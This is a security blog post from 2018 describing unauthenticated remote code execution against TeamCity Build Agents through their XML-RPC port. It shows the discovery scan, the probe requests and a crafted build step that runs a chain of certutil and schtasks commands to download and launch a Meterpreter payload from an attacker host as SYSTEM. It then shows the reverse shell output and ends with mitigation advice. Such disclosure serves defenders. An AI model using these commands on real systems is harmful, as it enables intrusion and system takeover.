


Teamcity Agent XML-RPC RCE
Thu, Jul 26, 2018Teamcity?
For those who haven’t had the pleasure, TeamCity is a delightful Continuous Integration tool from JetBrains. TeamCity is commonly deployed to multiple servers, with one TeamCity server responsible for managing build configurations and multiple Build Agent servers responsible for running the builds.
The Build Agents can be configured to receive their build commands in either a unidirectional or bidirectional mode. In unidirectional mode the Build Agent polls the server for new build commands and then runs them. In bidirectional mode the TeamCity server pushes the commands down to the Build Agents over port 9090. Up until version 10 this was the default configuration.
What is particular charming about this bidirectional mode, is that in its default configuration, there is no authentication, authorisation or encryption of the communications between the TeamCity server and the Build Agent. Combine this with the fact that it’s not uncommon for Build Agents to run as System and some real fun can be had.
Identifying a TeamCity Agent
Initially the port appeared as part of an Nmap scan, however service detection was unable to shed much light on the port, other than it’s an XML-RPC service over HTTP.
PORT STATE SERVICE VERSION
9090/tcp open rtsp
| fingerprint-strings:
| FourOhFourRequest, GetRequest:
| HTTP/1.0 400 Bad Request
| Server: Apache XML-RPC 1.0
| Method GET not implemented (try POST)
| HTTPOptions:
| HTTP/1.0 400 Bad Request
| Server: Apache XML-RPC 1.0
| Method OPTIONS not implemented (try POST)
| RTSPRequest:
| RTSP/1.0 400 Bad Request
| Server: Apache XML-RPC 1.0
| Method OPTIONS not implemented (try POST)
| SIPOptions:
| SIP/2.0 400 Bad Request
| Server: Apache XML-RPC 1.0
|_ Method OPTIONS not implemented (try POST)
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)Unfortunately, the Build Agents don’t support any kind of XML-RPC introspection so we have to make do with Googling and a bit of guesswork to figure out what the service is expecting.
Sending through the simple payload here we at least get an error message which confirms that it is a TeamCity Build Agent.
POST / HTTP/1.1
Host: 172.16.198.149:9090
Connection: close
Content-Length: 104
<?xml version="1.0"?>
<methodCall>
<methodName>buildAgent.hello</methodName>
<params></params>
</methodCall>
HTTP/1.1 200 OK
Server: Apache XML-RPC 1.0
Connection: close
Content-Type: text/xml
Content-Length: 311
<?xml version="1.0"?>
<methodResponse>
<fault>
<value>
<struct>
<member>
<name>faultString</name>
<value>java.lang.NoSuchMethodException: jetbrains.buildServer.agent.impl.BuildAgentImpl.hello()</value>
</member>
<member>
<name>faultCode</name>
<value>
<int>0</int>
</value>
</member>
</struct>
</value>
</fault>
</methodResponse>Developing an Exploit
Perhaps the best strategy is to install a local copy of TeamCity and inspect the traffic with Wireshark.

From this we learn that the Build Agent is expecting an XML method call to
buildAgent.runBuild and the only parameter this method expects is an XML string containing
our build configuration. Nested within this XML blob we can see our actual command line step,
echo "Hello World". Now all we need to do is construct a malicious build
configuration and we’re good to go!
Starting out small we’ll replace our echo command with whoami > C:\pwn.txt to print
out the account running the TeamCity Build Agent. From this we can see the Build Agent is running as NT
AUTHORITY\SYSTEM.

Let’s step things up. We’ll throw in a Meterpreter payload and go for a reverse shell then call it quits. To do this we’ll modify our script to download our Meterpreter payload to a temp directory, schedule a task to execute the payload, run the task and then remove it. This is needed as the Build Agent will step in and kill our Meterpreter process before we can migrate it somewhere else otherwise. We end up with the following build script.
certutil -urlcache -split -f http://172.16.198.147/meterpreter.exe %TEMP%/meterpreter.exe
schtasks /create /tn msf /tr %TEMP%/meterpreter.exe /sc MONTHLY /ru System
schtasks /run /tn msf
schtasks /delete /tn msf /fNow all we need to do is send off our XML-RPC call and catch our shell!
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 172.16.198.147:4444
[*] Meterpreter session 1 opened (172.16.198.147:4444 -> 172.16.198.149:49411) at 2018-07-24 16:13:52 +0800
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >Closing Thoughts
Please, please, please upgrade to TeamCity 10 or later, where XML-RPC is no longer the default
configuration for Build Agents. Failing that, at the very least disable XML-RPC. This can be done on the
TeamCity server by setting the following internal property
teamcity.agent.communicationProtocols=polling. Alternatively, this property can be set on
the individual Build Agents. The Build Agent’s property overrides any properties set by the
TeamCity server. So any Build Agents which have XML-RPC explicitly enabled will need updating
regardless.
Finally, where possible, perhaps don’t run TeamCity Build Agents as Local System or with administrative permissions. We don’t want to make things too easy do we?